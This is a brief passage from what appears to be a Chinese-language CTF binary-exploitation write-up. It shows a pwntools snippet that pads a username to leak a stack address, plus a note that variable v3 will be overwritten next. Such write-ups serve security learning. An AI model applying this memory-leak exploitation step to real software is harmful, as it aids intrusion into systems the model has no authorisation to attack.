 ```bash
ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
```

[![](assets/1705903019-2a12f671a2f8783d55e706e070b10baa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192448-856882a2-b786-1.png)

[![](assets/1705903019-71262271dc74dfb5a05e8a5987765f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192453-8811791e-b786-1.png)  
泄露出了栈地址，然后再去修改 v3

[![](assets/1705903019-30618248792bc571aae200b115d15f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192501-8cd0c50e-b786-1.png)  